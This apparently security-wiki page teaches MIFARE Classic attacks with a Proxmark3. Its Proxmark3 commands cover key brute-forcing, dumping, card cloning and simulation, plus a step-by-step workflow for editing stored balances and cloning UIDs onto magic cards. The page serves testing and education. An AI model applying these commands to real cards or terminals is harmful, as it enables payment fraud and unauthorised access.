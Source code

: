 # Proxmark 3

## Attacking RFID Systems with Proxmark3

The first thing you need to do is to have a [**Proxmark3**](https://proxmark.com) and [**install the software and it's dependencie**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)[**s**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux).

### Attacking MIFARE Classic 1KB

It has **16 sectors**, each of them has **4 blocks** and each block contains **16B**. The UID is in sector 0 block 0 (and can't be altered).\
To access each sector you need **2 keys** (**A** and **B**) which are stored in **block 3 of each sector** (sector trailer). The sector trailer also stores the **access bits** that give the **read and write** permissions on **each block** using the 2 keys.\
2 keys are useful to give permissions to read if you know the first one and write if you know the second one (for example).

Several attacks can be performed

```bash
proxmark3> hf mf #List attacks

proxmark3> hf mf chk *1 ? t ./client/default_keys.dic #Keys bruteforce
proxmark3> hf mf fchk 1 t # Improved keys BF

proxmark3> hf mf rdbl 0 A FFFFFFFFFFFF # Read block 0 with the key
proxmark3> hf mf rdsc 0 A FFFFFFFFFFFF # Read sector 0 with the key

proxmark3> hf mf dump 1 # Dump the information of the card (using creds inside dumpkeys.bin)
proxmark3> hf mf restore # Copy data to a new card
proxmark3> hf mf eload hf-mf-B46F6F79-data # Simulate card using dump
proxmark3> hf mf sim *1 u 8c61b5b4 # Simulate card using memory

proxmark3> hf mf eset 01 000102030405060708090a0b0c0d0e0f # Write those bytes to block 1
proxmark3> hf mf eget 01 # Read block 1
proxmark3> hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f # Write to the card
```

The Proxmark3 allows to perform other actions like **eavesdropping** a **Tag to Reader communication** to try to find sensitive data. In this card you could just sniff the communication with and calculate the used key because the **cryptographic operations used are weak** and knowing the plain and cipher text you can calculate it (`mfkey64` tool).

#### MiFare Classic quick workflow for stored-value abuse

When terminals store balances on Classic cards, a typical end-to-end flow is:

```bash
# 1) Recover sector keys and dump full card
proxmark3> hf mf autopwn

# 2) Modify dump offline (adjust balance + integrity bytes)
#    Use diffing of before/after top-up dumps to locate fields

# 3) Write modified dump to a UID-changeable ("Chinese magic") tag
proxmark3> hf mf cload -f modified.bin

# 4) Clone original UID so readers recognize the card
proxmark3> hf mf csetuid -u <original_uid>
```

Notes

- `hf mf autopwn` orchestrates nested/darkside/HardNested-style attacks, recovers keys, and creates dumps in the client dumps folder.
- Writing block 0/UID only works on magic gen1a/gen2 cards. Normal Classic cards have read-only UID.
- Many deployments use Classic "value blocks" or simple checksums. Ensure all duplicated/complemented fields and checksums are consistent after editing.

See a higher-level methodology and mitigations in:

[[pentesting-rfid.md]]

### Raw Commands

IoT systems sometimes use **nonbranded or noncommercial tags**. In this case, you can use Proxmark3 to send custom **raw commands to the tags**.

```bash
proxmark3> hf search UID : 80 55 4b 6c ATQA : 00 04
SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
  proprietary non iso14443-4 card found, RATS not supported
  No chinese magic backdoor command detected
  Prng detection: WEAK
  Valid ISO14443A Tag Found - Quiting Search
```

With this information you could try to search information about the card and about the way to communicate with it. Proxmark3 allows to send raw commands like: `hf 14a raw -p -b 7 26`

### Scripts

The Proxmark3 software comes with a preloaded list of **automation scripts** that you can use to perform simple tasks. To retrieve the full list, use the `script list` command. Next, use the `script run` command, followed by the script’s name:

```
proxmark3> script run mfkeys
```

You can create a script to **fuzz tag readers**, so copying the data of a **valid card** just write a **Lua script** that **randomize** one or more random **bytes** and check if the **reader crashes** with any iteration.

## References

- [Proxmark3 wiki: HF MIFARE](https://github.com/RfidResearchGroup/proxmark3/wiki/HF-Mifare)
- [Proxmark3 wiki: HF Magic cards](https://github.com/RfidResearchGroup/proxmark3/wiki/HF-Magic-cards)
- [NXP statement on MIFARE Classic Crypto1](https://www.mifare.net/en/products/chip-card-ics/mifare-classic/security-statement-on-crypto1-implementations/)
- [NFC card vulnerability exploitation in KioSoft Stored Value (SEC Consult)](https://sec-consult.com/vulnerability-lab/advisory/nfc-card-vulnerability-exploitation-leading-to-free-top-up-kiosoft-payment-solution/)

